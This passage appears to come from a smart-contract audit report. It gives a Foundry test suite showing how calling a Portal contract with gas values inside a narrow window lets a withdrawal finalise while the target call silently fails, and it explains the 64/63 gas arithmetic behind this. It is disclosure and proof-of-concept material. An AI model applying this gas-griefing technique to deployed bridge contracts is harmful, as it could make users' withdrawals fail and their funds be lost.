 Here is a Foundry test that calls the Portal with various gas values to expose this vulnerability:
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../src/Portal.sol";

contract PortalGasTest is Test {
    Portal public c;
    GasUser public gu;

    function setUp() public {
        c = new Portal(0x000000000000000000000000000000000000dEaD);
        gu = new GasUser();
    }

    function testGasLimitForGU() public {
        gu.store{gas: 11_245_655}(500);
        assert(gu.s(499) == 1);
    }

    function _executePortalWithGivenGas(uint gas) public {
        c.execute{gas: gas}(Portal.Transaction({
            gasLimit: 11_245_655,
            sender: address(69),
            target: address(gu),
            value: 0,
            data: abi.encodeWithSignature("store(uint256)", 500)
        }));
    }

    function testPortalCatchesGasTooSmall() public {
        vm.expectRevert(bytes("OptimismPortal: insufficient gas to finalize withdrawal"));
        _executePortalWithGivenGas(11_266_734);
    }

    function testPortalSucceedsWithEnoughGas() public {
        _executePortalWithGivenGas(11_433_180);
        assert(gu.s(499) == 1);
    }

    function testPortalBugWithInBetweenGasLow() public {
        _executePortalWithGivenGas(11_266_735);
        
        // It now reverts because the array has a length of 0.
        vm.expectRevert();
        gu.s(0);
    }

    function testPortalBugWithInBetweenGasHigh() public {
        _executePortalWithGivenGas(11_433_179);
        
        // It now reverts because the array has a length of 0.
        vm.expectRevert();
        gu.s(0);
    }
}
```
As you can see:
- We verify that the call to the target contract succeeds with 11,245,655 gas, and set that as gasLimit for all tests. This is the `X` from our formula above.
- This means that we need `11_245_655 * 64 / 63 = 11_424_157` gas available at the time the call is made.
